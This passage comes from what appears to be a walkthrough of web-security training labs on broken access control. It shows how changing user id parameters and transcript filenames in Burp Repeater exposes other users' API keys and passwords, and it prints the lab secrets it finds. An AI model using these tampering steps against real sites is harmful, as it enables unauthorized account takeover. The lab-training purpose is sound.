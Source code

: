     - Send the **/my-account GET** request to the **Repeater**.
    - Set the user **id** to **carlos** and repeat the request  
    (notice that the **carlos**'s profile page is displayed before the redirect).

    ```plaintext
    https://<lab_url>/my-account    GET     (id=carlos)

    Your API Key is: zuM25r4y1Hm88aqakr19Dv3sKg3aMpRO
    ```

10. #### **User ID controlled by request parameter with password disclosure**

    - Login as **wiener**, click **My account** and take note of the URL flow and the parameters sent.

    ```plaintext
    https://<lab_url>/my-account    GET     (id=wiener)
    ```

    - Send the **/my-account GET** request to the **Repeater**.
    - Set the user **id** to **administrator** and repeat the request.

    ```html
    ...
    <input required type=password name=password value='xr21jnqtnj37s2fz41h6'/>
    ...
    ```

11. #### **Insecure direct object references**

    - Interact with the **Live chat** and take note of the URL flow and the parameters sent.

    ```plaintext
    ...
    https://<lab_url>/download-transcript               POST
    https://<lab_url>/download-transcript/2.txt         GET
    ...
    ```

    - Send the **/download-transcript/2.txt GET** request to the **Repeater**.
    - Set the **txt** filename to **1.txt** and repeat the request.

    ```plaintext
    CONNECTED: -- Now chatting with Hal Pline --
    You: Hi Hal, I think I've forgotten my password and need confirmation that I've got the right one
    Hal Pline: Sure, no problem, you seem like a nice guy. Just tell me your password and I'll confirm whether it's correct or not.
    You: Wow you're so nice, thanks. I've heard from other people that you can be a right ****
    Hal Pline: Takes one to know one
    You: Ok so my password is m8zm935rsbzfy61lhgo8. Is that right?
    Hal Pline: Yes it is!
    You: Ok thanks, bye!
    Hal Pline: Do one!
    ```

12. #### **Multi-step process with no access control on one step**

    - Login as **administrator**, upgrade the user **carlos** and take note of the URL flow and the parameters sent.
